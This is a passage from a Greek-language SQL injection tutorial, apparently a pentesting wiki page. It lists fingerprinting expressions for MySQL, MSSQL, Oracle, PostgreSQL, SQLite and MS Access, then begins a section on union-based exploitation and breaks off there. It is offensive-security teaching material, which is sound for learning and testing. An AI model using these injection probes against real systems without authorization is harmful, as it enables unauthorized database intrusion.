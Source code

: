 ### Αναγνώριση Back-end

Ο καλύτερος τρόπος για να αναγνωρίσετε το back-end είναι να προσπαθήσετε να εκτελέσετε λειτουργίες των διαφόρων back-end. Μπορείτε να χρησιμοποιήσετε τις _**λειτουργίες ύπνου**_ **της προηγούμενης ενότητας** ή αυτές (πίνακας από [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification):
```bash
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
Επίσης, αν έχετε πρόσβαση στην έξοδο του ερωτήματος, θα μπορούσατε να κάνετε **εκτύπωση της έκδοσης της βάσης δεδομένων**.

{% hint style="info" %}
Σε συνέχεια, θα συζητήσουμε διάφορες μεθόδους για την εκμετάλλευση διαφορετικών τύπων SQL Injection. Θα χρησιμοποιήσουμε το MySQL ως παράδειγμα.
{% endhint %}

### Αναγνώριση με PortSwigger

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

## Εκμετάλλευση Βασισμένη σε Union

### Ανίχνευση αριθμού στηλών

Αν μπορείτε να δείτε την έξοδο του ερωτήματος, αυτή είναι η καλύτερη μέθοδος για να το εκμεταλλευτείτε.\
Πρώτα απ' όλα, πρέπει να ανακαλύψουμε τον **αριθμό** των **στηλών** που επιστρέφει το **αρχικό αίτημα**. Αυτό συμβαίνει επειδή **και τα δύο ερωτήματα πρέπει να επιστρέφουν τον ίδιο αριθμό στηλών**.\
Δύο μέθοδοι χρησιμοποιούνται συνήθως για αυτόν τον σκοπό:
